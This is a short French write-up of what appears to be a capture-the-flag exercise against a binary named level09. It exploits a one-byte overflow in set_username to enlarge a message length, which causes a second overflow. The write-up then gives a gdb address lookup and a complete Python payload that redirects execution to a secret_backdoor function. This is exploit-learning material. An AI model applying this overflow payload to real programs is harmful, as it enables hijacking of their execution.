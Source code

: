 Buffer overflow sur la fct set_username de 1 byte. L'espace memoire se trouvant a user+40 est la longueur du message. On peut donc modifier cette valeur afin de creer un second buffer overflow sur message.
(gdb) p secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
L'offset est de 200 apres l'username.
(python -c '''
import struct

addrs = struct.pack("Q", 0x55555555488c)
junk = "\x90" * 200

print "A" * 40 + "\xee" + "\n" + junk + addrs
'''; cat;) | ./level09